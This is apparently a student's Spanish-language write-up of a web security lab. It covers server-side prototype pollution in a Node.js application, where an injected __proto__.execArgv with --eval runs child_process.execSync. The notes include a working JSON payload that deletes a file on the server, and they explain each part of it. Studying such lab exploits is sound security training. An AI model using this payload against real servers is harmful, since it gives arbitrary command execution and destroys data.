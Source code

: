 En esta clase explotamos una vulnerabilidad de server-side prototype pollution en una aplicación Node.js que nos permite ejecutar comandos arbitrarios en el sistema. Usamos la funcionalidad de cambio de dirección para enviar un objeto JSON con la propiedad ‘**proto**‘, inyectando un campo ‘**execArgv**‘ que se utiliza en los procesos hijos del servidor.

Al manipular este campo con el argumento ‘**–eval**‘, forzamos al proceso a ejecutar código JavaScript, como una llamada a ‘**execSync**‘. Inicialmente probamos la ejecución contactando con Burp Collaborator mediante una petición **curl**, y al confirmarlo, sustituimos ese comando por otro que elimina el archivo ‘**/home/carlos/morale.txt**‘.

Esta clase demuestra cómo una simple entrada JSON puede comprometer por completo el sistema, combinando prototype pollution con ejecución de comandos a nivel de servidor.

Solucion
vamos a interceptar esto vemos que ya somos admin
![[Pasted image 20250901004554.png]]
![[Pasted image 20250901004741.png]]
si nos regresamos a la pagina y le damos click al admin panel nos sale esto y de igual forma vamos a interceptarlo
![[Pasted image 20250901004844.png]]
![[Pasted image 20250901004941.png]]
vamos a tratar de ver si es vulnerable a prototipe el profile de esta manera (,"__proto__":{"json spaces":10})
vemos que si
![[Pasted image 20250901005310.png]]
y podemos meter una nuevo argumento
"__proto__": {"execArgv":["--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"]}
¿Qué está intentando hacer?
• 	execArgv: es una propiedad que se usa en Node.js para pasar argumentos al proceso principal cuando se inicia.
• 	--eval: le dice a Node que ejecute el código que sigue directamente como si fuera un script.
• 	require('child_process').execSync(''): ejecuta un comando del sistema de forma síncrona.
• 	rm /home/carlos/morale.txt: intenta borrar el archivo  en la ruta especificada

![[Pasted image 20250901010218.png]]
y su volvemos al admin panel y le damos al boton vemos que se a eliminando
![[Pasted image 20250901010322.png]]

